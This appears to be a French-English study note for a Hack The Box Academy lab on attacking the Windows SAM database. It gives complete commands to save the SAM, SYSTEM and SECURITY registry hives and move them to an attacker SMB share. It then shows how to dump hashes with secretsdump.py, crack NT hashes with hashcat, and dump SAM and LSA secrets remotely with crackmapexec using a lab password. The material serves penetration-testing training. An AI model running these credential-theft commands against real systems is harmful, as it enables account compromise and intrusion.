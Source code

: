 # Attacking SAM

***

Sur un système Windows qui n'est pas membre d'un domaine, nous pouvons tenter de **récupérer rapidement les fichiers associés à la base de données SAM**.&#x20;

<mark style="color:orange;">**Copying SAM Registry Hives**</mark>

There are three registry hives that we can copy if we have local admin access on the target

{% hint style="info" %}
**`HKLM\SAM`** fait référence à une clé du **Registre Windows**, un endroit où sont stockées des informations critiques sur le système d’exploitation.

***

#### 🔹 **Décomposition :**

* **`HKLM`** : Abréviation de **HKEY\_LOCAL\_MACHINE**.
  * C'est une branche principale du registre qui contient des paramètres et configurations liés au **système** et à **tous les utilisateurs** de l’ordinateur.
  * Elle stocke des informations matérielles, logicielles et de sécurité.
* **`SAM`** : Abréviation de **Security Account Manager**.
  * C'est une sous-clé de `HKLM` qui contient les **informations d'authentification et de sécurité** (comptes utilisateurs, mots de passe hachés, SID, etc.).
{% endhint %}

<table data-full-width="true"><thead><tr><th>Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. </td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

<mark style="color:orange;">**Using reg.exe save to Copy Registry Hives**</mark>

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

<mark style="color:orange;">**Creating a Share with smbserver.py**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
{% endcode %}

<mark style="color:orange;">**Moving Hive Copies to Share**</mark>

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

<mark style="color:orange;">**Confirming Hive Copies Transferred to Attack Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ls

sam.save  security.save  system.save
```

***

### <mark style="color:blue;">Dumping Hashes with Impacket's secretsdump.py</mark>

<mark style="background-color:red;">**One incredibly useful tool we can use to dump the hashes offline is Impacket's**</mark><mark style="background-color:red;">**&#x20;**</mark><mark style="background-color:red;">**`secretsdump.py`**</mark><mark style="background-color:red;">**.**</mark>

<mark style="color:orange;">**Locating secretsdump.py**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ locate secretsdump 
```

Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

<mark style="color:orange;">**Running secretsdump.py**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

{% hint style="warning" %}
Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section.&#x20;
{% endhint %}

Notice at the top of the secretsdump.py output:

```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells us how to read the output and what hashes we can crack. <mark style="color:orange;">**Most modern Windows operating systems store the password as an NT hash.**</mark> Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

***

### <mark style="color:blue;">Cracking Hashes with Hashcat</mark>

<mark style="color:orange;">**Adding nthashes to a .txt File**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
```

Now that the NT hashes are in our text file (`hashestocrack.txt`), we can use Hashcat to crack them.

<mark style="color:orange;">**Running Hashcat against NT Hashes**</mark>

Selecting a mode is largely dependent on the type of attack and hash type we want to crack.&#x20;

Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes).&#x20;

We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes)

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...
```
{% endcode %}

{% hint style="danger" %}
Keep in mind that this is a well-known technique, so admins may have safeguards to prevent and detect it. We can see some of these ways [documented](https://attack.mitre.org/techniques/T1003/002/) within the MITRE attack framework.
{% endhint %}

***

### <mark style="color:blue;">Remote Dumping & LSA Secrets Considerations</mark>

Avec un accès à des identifiants disposant de privilèges administrateur local, il est également possible de cibler les **LSA Secrets** à distance via le réseau. Cela pourrait nous permettre d’extraire des identifiants provenant d’un service en cours d’exécution, d’une tâche planifiée ou d’une application utilisant les **LSA Secrets** pour stocker des mots de passe.

<mark style="color:orange;">**Dumping LSA Secrets Remotely**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
{% endcode %}

<mark style="color:orange;">**Dumping SAM Remotely**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
{% endcode %}

Practice each technique taught in this section while you work to complete the challenge questions.
